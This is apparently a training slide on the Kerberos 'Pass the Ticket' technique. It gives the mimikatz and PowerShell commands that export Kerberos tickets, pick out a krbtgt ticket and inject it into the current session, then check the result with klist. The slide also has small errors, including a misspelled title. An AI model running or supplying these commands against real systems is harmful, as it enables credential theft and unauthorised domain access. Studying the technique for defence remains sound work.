

# Vulnarabilities
Pass the Ticket
Pass the Ticket (PPT) allows to inject exported Kerberos tickets into the current session

C:\mimikatz_trunk\x64\mimikatz.exe "Kerberos::list /export" exit
PS C:>
PS C:>
$fileName = dir C:\mimikatz_trunk\x64 | Where-Object Name -Match '(?=.*krbtgt)(?=.*Install)' | Select-Object -First 1 -ExpandProperty Name
PS C:>
C:\mimikatz_trunk\x64\mimikatz.exe "Kerberos::ptt $fileName" exit
PS C:>

klist
PS C:>